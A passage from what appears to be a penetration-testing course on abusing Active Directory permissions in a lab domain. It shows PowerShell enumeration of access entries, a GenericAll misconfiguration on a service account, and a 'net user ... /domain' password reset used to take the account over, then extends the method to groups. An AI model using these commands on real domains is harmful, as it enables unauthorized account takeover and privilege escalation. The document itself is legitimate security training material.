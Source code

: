 ```
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
...
```

> Listing 8 - Locating all ACEs for current user

The output reveals that our current user (_Offsec_) has the GenericAll access right on the _TestService1_ account. This is likely a misconfiguration since this is a non-default access right and is excessive.

Although the misconfigurations in this module are used for demonstration purposes, some applications (like Exchange or SharePoint) require seemingly excessive access rights to their associated service accounts.

The GenericAll access right gives us full control over the _TestService1_ user, which among other things, allows us to change the password of the account without knowledge of the old password.

```
PS C:\tools> net user testservice1 h4x /domain
The request will be processed at a domain controller for domain prod.corp1.com.

The command completed successfully.
```

> Listing 9 - Changing password of TestService1

Once we reset the password, we can either log in to a computer (like appsrv01) with the account or create a process in the context of that user to perform a pass-the-ticket attack.

Compromising an account with an allowed GenericAll access right is very simple. We can also abuse the _ForceChangePassword_ and _AllExtendedRights_ access rights to change the password of a user account in a similar way without supplying the old password.

So far, we have only dealt with user accounts, but since everything in Active Directory is an object, these concepts also apply to groups.

For example, we can enumerate all domain groups that our current user has explicit access rights to by piping the output of Get-DomainGroup into Get-ObjectAcl and filtering it, in a process similar to the previous user account enumeration.

```
PS C:\tools> Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

AceType               : AccessAllowed
ObjectDN              : CN=TestGroup,OU=prodGroups,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1607
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```
